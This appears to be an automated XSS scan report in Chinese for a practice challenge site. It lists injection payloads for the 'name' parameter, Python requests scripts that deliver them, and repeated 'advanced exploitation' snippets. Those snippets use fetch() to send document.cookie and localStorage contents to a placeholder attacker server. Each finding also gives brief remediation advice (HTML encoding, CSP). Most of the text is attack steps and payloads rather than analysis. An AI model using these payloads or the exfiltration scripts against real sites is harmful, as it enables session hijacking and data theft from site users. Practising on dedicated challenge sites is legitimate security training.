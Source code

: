 #### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: high
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: high
- 验证载荷: "><script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

